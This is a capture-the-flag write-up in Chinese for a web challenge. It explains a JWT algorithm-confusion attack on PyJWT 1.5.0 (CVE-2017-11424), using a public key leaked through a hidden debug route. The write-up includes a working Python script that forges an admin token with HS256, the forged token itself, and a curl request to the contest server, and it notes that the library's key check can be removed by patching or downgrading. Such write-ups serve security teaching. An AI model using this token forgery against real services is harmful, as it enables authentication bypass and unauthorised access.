 # 普通的身份认证器

- 题目分类：web

- 题目分值：200

近日，小 T 接手了某个老旧 Python 网站的重构工作。接手之后，他把原先的 requirements.txt 复制到了新项目下，更换了后端框架，照着框架文档魔改了身份认证部分的内容，写出了一个测试用的原型。看起来一切都很正常，只是他似乎没有仔细检查每一项依赖的版本。

「懒得管了，又不是不能用！」但果真如此吗？

[打开/下载题目](http://202.38.93.111:10092/?token={token})

---

一道简单的 web 题，本来想出得更好一点的，但是因为时间不太够 + 自己太菜了，所以出成了现在这个样子。

## JWT

打开题目显示只能以 Guest 用户登录，获取用户信息提示需要 admin 用户才能看到 flag。看到登录可能大家的第一反应是去看 cookie，但是 cookie 里面什么都没有。如果去读与 Vue 相关的代码，就会发现……所谓的登录，实际上是：把比赛 token 放进 header 里面，然后 POST 方式请求 `/token`，将结果放进 `this.jwt` 里面。之后获取用户信息，就是把比赛 token 和 `this.jwt` 放进 header 里面，然后 GET 方式请求 `/profile`。

然后呢？看起来 JWT (JSON Web Tokens) 是一个关键的地方。通过观察开发者工具的 Network 模块，可以获得服务器发来的 JWT（当然，这道题加载的是开发版本的 Vue，所以如果你写过 Vue 的话，你的浏览器里也应该会有 Vue.js devtools，用那个应该会更方便一点）。

但是 JWT 是什么？简单（而可能不太准确）地说，JWT 是一种用于身份认证的 token，token 中的内容是公开的，通过签名保证 token 未被篡改。可以在 <https://jwt.io> 来解码得到的 token，以下是一个获取到的 token 的例子：

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJzdWIiOiJndWVzdCIsImV4cCI6MTYwNDM3NDE4N30.ZADFKRFG0I5LpsUwb2hAqcyD1BOWf5doLrxVIuI-OINDPaBNKsuCPInxadxW5VbhDmmkcgBnGT_GQfqE7VWFKf2aY0Zfq8YNmXPESEWV9OC4WHfEt3GwN5B2Rt1wXZgcWuB9pcxVKttoND9yLS5Pa7mOTyc_SPJ-A7t0FnfoL8NwbqOeLorMW190UuVb4_bbuNcEVFwqOp6A7vrNLbD6trhUrk2aFG1rtbTwuTkdDqMozOtzI8GtwpShb9XmQCugjOBciQceeTnRB4PjBxdJO8tHuiVMwVIOg5__-gDJTDAxd9veT_T8finvvOJ2rMAsNO_WSOYgdBKBwfUh5kbh7x-C616dj4C0xnJR8U3DDhyyjBa5V6c9_jDWM6E0YB9O0iRTglWetvW3xC-_ZNaWS-yxFvcAnVxOVyEkAiow0BJuyRxNDXc3m2g0yg6vUjmimUnJ3-ffl5E1sqdPiK_Tyy2ny21ZRzZz01uEf0Z31JP3RThOKPmfkTDpRKMB5pSuCeqvxK5ZP6hKwpahc5MqZHbzwMv8rPD_D-bLDKjSkYfu_JCQO00mfTDxg28DWSvJz8xaUL3oUAsR_8lhw20SElh_NcdywMSiDTe6vYZ0KjRZ1mIZMLxmAqPR2YlhRwQmhGad5Z2EKHUTwaYzR_tI4HtubTk4L3k7PBo5N6T0WwY
```

解码之后可以看到，这个 JWT 的 header 提示我们它的类型 (`typ`) 是 JWT，签名算法 (`alg`) 是 `RS256`（使用 SHA-256 的 RSA 签名）；Payload 中标明了用户名 (`sub`) 为 `guest`，以及其过期时间 (`exp`) 为北京时间 2020 年 11 月 3 日 11:29:47；最后是签名部分，当然公钥和私钥我们现在都不知道。

下一步应该做什么呢？

## FastAPI

从注释中可以得到，它的后端框架使用的是 FastAPI，一个快速的 Python Web API 框架。如果真的去看过 [FastAPI 文档](https://fastapi.tiangolo.com/) 的话，你会发现 FastAPI 会给网站自动生成 API 文档，路径在 `/docs`。点开来查看之后，就能看到一个隐藏的 route `/debug`，访问一下，就能看到它把公钥吐出来了。

## ~~公钥被大家知道了也不会怎么样吧~~

在非对称密码中，公钥确实是可以公开的。但是这就牵扯到了 JWT 格式的问题：它的签名算法除了支持 RSA 签名以外，还支持对称的 HMAC 签名（例如 `HS256`），并且修改 JWT 中的签名算法只需要修改 header 的 `alg` 字段，并且通过某些方法，仍然让程序认为整个 JWT 是完好而未被篡改的即可。

在使用 RS256 时，程序的流程是：

- 使用私钥为 JWT 签名。
- 使用公钥验证接收到的 JWT 的完整性。

而在使用 HS256 时，程序的流程是：

- 使用密钥为 JWT 签名。
- 同样，使用这个密钥验证 JWT 的完整性。显然，这个密钥不能被泄露出来。

那么如果我们知道公钥，那么我们就能这么做：

- 接收到一个合法的，使用 `RS256` 签名算法的 JWT。
- 修改 JWT 的 payload 我们想要的样子，同时修改 header 的算法为 `HS256`。
- 使用已知的公钥，以 `HS256` 算法重新签名我们修改后的公钥。
- 发给服务器。此时，服务器使用公钥 + `HS256` 算法检查 JWT，发现没有问题，就会认为这是一个合法的 JWT。

目前的 JWT 库基本上都修复了这个问题。

## exp

题目中提到“只是他似乎没有仔细检查每一项依赖的版本”，暗示了网站可能使用了有问题的 JWT 库。Python 的 JWT 库有很多，这里挑选了 PyJWT 作为我们的 JWT 库（当然用别的也行），阅读文档之后很容易就能写出来：

```python
import jwt

PUBLIC_KEY = "-----BEGIN RSA PUBLIC KEY-----\nMIICCgKCAgEAn/KiHQ+/zwE7kY/Xf89PY6SowSb7CUk2b+lSVqC9u+R4BaE/5tNF\neNlneGNny6fQhCRA+Pdw1UJSnNpG26z/uOK8+H7fMb2Da5t/94wavw410sCKVbvf\nft8gKquUaeq//tp20BETeS5MWIXp5EXCE+lEdAHgmWWoMVMIOXwaKTMnCVGJ2SRr\n+xH9147FZqOa/17PYIIHuUDlfeGi+Iu7T6a+QZ0tvmHL6j9Onk/EEONuUDfElonY\nM688jhuAM/FSLfMzdyk23mJk3CKPah48nzVmb1YRyfBWiVFGYQqMCBnWgoGOanpd\n46Fp1ff1zBn4sZTfPSOus/+00D5Lxh6bsbRa6A1vAApfmTcu026lIb7gbG7DU1/s\neDId9s1qA5BJpzWFKO4ztkPGvPTUok8hQBMDaSH1JOoFQgfJIfC7w2CQe+KbodQL\n3akKQDCZhcoA4tf5VC6ODJpFxCn6blML5cD6veOBPJiIk8DBRgmt2AHzOUju+5ns\nQcplOVxW5TFYxLqeJ8FPWqQcVekZ749FjchtAwPlUsoWIH0PTSun38ua8usrwTXb\npBlf4r0wz22FPqaecvp7z6Rj/xfDauDGDSU4hmn/TY9Fr+OmFJPW/9k2RAv7KEFv\nFCLP/3U3r0FMwSe/FPHmt5fjAtsGlZLj+bZsgwFllYeD90VQU8Ds+KkCAwEAAQ==\n-----END RSA PUBLIC KEY-----\n"

payload = {
  "sub": "admin",
  "exp": 9602085613,  # fill in any number you like
}

encoded = jwt.encode(payload, PUBLIC_KEY, algorithm='HS256')

print(encoded)
```

但是如果直接运行的话，会报错。

```
Traceback (most recent call last):
  File "exp.py", line 10, in <module>
    encoded = jwt.encode(payload, PUBLIC_KEY, algorithm='HS256')
  File "<redacted>/venv/lib/python3.7/site-packages/jwt/api_jwt.py", line 65, in encode
    json_payload, key, algorithm, headers, json_encoder
  File "<redacted>/venv/lib/python3.7/site-packages/jwt/api_jws.py", line 113, in encode
    key = alg_obj.prepare_key(key)
  File "<redacted>/venv/lib/python3.7/site-packages/jwt/algorithms.py", line 151, in prepare_key
    'The specified key is an asymmetric key or x509 certificate and'
jwt.exceptions.InvalidKeyError: The specified key is an asymmetric key or x509 certificate and should not be used as an HMAC secret.
```

这是因为，PyJWT（以及其他很多 JWT 库）修复这个安全漏洞的方式是：当使用 HS256 encode/decode 的时候，检查密钥的开头是否是非对称加密的公钥，如果是，就报错。可以直接魔改 jwt/algorithms.py 把这一部分的校验去掉，也可以降级到有问题的版本（1.5.0）然后再跑 exp。

获得的一个可用的 JWT 是：

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJhZG1pbiIsImV4cCI6OTYwMjA4NTYxM30.2oxpg6KALSg37msshI8Oddi1TgspKdxoPzOJ0Zyt77I
```

然后请求 `/profile`:

```
curl -H 'Hg-Token: 你的 token' -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJhZG1pbiIsImV4cCI6OTYwMjA4NTYxM30.2oxpg6KALSg37msshI8Oddi1TgspKdxoPzOJ0Zyt77I' http://202.38.93.111:10092/profile
```

就好了。

## 题目细节

### 使用的 JWT 库版本

本题使用的是 PyJWT 1.5.0，对应的 CVE 是 [CVE-2017-11424](https://www.cvedetails.com/cve/CVE-2017-11424/)。其实 PyJWT 当时已经考虑到了本题所述的安全问题，但是[在进行校验的时候，没有把所有可能的情况都加入](https://github.com/jpadilla/pyjwt/blob/1.5.0/jwt/algorithms.py#L142)。

```python
invalid_strings = [
    b'-----BEGIN PUBLIC KEY-----',
    b'-----BEGIN CERTIFICATE-----',
    b'ssh-rsa'
]

if any([string_value in key for string_value in invalid_strings]):
    raise InvalidKeyError(
        'The specified key is an asymmetric key or x509 certificate and'
        ' should not be used as an HMAC secret.')
```

如果开头是 `-----BEGIN RSA PUBLIC KEY-----` 的话，就能通过这样的逻辑了。因为 FastAPI 是在 PyJWT 1.5.0 之后出现的（如果我没搞错的话），题目为了能够自圆其说……文案就写成了这样子。

### 可以把 algorithm 设置为 none 吗？

把 CTF 和 JWT 放在一起搜索过的同学一定能找到一些常见会出现的安全问题，包括本题使用的问题，以及将 algorithm 设置为 none 来绕过签名检查的问题。

但是本题中，这种做法是不可行的。因为尽管 PyJWT 支持 none，它在 encode/decode 的时候会检查参数中密钥是否被设置，[如果设置了就会报错](https://github.com/jpadilla/pyjwt/blob/1.5.0/jwt/algorithms.py#L116)，这是无法绕过的。